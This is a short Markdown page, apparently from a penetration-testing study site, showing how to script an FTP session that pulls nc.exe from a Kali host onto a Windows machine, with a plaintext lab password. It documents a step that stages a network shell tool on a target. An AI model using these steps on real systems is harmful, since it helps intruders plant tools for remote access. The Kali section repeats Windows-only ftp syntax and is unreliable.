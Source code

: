 ```yaml
---
title: FTP File Transfer
layout: default
nav_order: 3
parent: File Transfers

---
```


# FTP 
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}

---
### FTP File Transfer

Transfer nc.exe using FTP from Linux to Windows. Make sure to transfer file to `/ftphome`

#### On Windows Machine: 
```powershell
PS C:\Tools\active_directory> echo 'open 192.168.119.128 21' > file.txt
PS C:\Tools\active_directory> echo 'USER offsec' >> file.txt
PS C:\Tools\active_directory> echo '123abc123foryouandme' >> file.txt
PS C:\Tools\active_directory> echo 'binary' >> file.txt
PS C:\Tools\active_directory> echo 'GET nc.exe' >> file.txt
PS C:\Tools\active_directory> echo 'bye' >> file.txt
PS C:\Tools\active_directory> ftp -v -n -s:file.txt
```

#### On Kali Machine: 
```bash
echo 'open 192.168.119.128 21' > file.txt
echo 'USER offsec' >> file.txt
echo '123abc123foryouandme' >> file.txt
echo 'binary' >> file.txt
echo 'GET nc.exe' >> file.txt
echo 'bye' >> file.txt
ftp -v -n -s:file.txt
```